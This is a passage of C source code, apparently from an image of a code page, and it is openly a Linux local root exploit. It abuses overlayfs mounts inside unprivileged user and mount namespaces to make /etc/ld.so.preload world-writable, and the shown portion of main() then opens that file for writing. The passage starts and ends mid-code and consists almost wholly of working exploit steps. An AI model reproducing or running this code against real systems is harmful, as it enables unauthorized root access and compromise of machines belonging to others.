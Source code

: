 ```
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
    int status, fd, lib;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

```